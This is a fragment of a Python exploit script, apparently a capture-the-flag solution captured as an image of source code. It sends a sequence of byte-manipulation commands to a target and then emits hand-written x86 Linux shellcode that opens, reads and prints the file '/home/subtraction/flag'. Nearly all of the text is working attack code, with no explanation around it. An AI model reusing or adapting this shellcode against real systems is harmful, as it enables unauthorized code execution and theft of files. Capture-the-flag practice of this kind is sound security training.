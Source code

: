 ```python3
  pluck_byte(idx_v(1), idx_v(5), 1) # carry
  add_const(idx_v(5), 65535)
  truncate_word(idx_v(5))

for i in range(4):
  process_byte(i)

send_end()

sys.stderr.write("Total commands sent: {}\n".format(index))

shellcode = b""
shellcode += b"\x31\xc0\x31\xdb\x31\xc9\x31\xd2"
shellcode += b"\xeb\x32\x5b\xb0\x05\x31\xc9\xcd"
shellcode += b"\x80\x89\xc6\xeb\x06\xb0\x01\x31"
shellcode += b"\xdb\xcd\x80\x89\xf3\xb0\x03\x83"
shellcode += b"\xec\x01\x8d\x0c\x24\xb2\x01\xcd"
shellcode += b"\x80\x31\xdb\x39\xc3\x74\xe6\xb0"
shellcode += b"\x04\xb3\x01\xb2\x01\xcd\x80\x83"
shellcode += b"\xc4\x01\xeb\xdf\xe8\xc9\xff\xff"
shellcode += b"\xff"
shellcode += b"/home/subtraction/flag\x00"

sys.stdout.buffer.write(shellcode)
time.sleep(1)
```
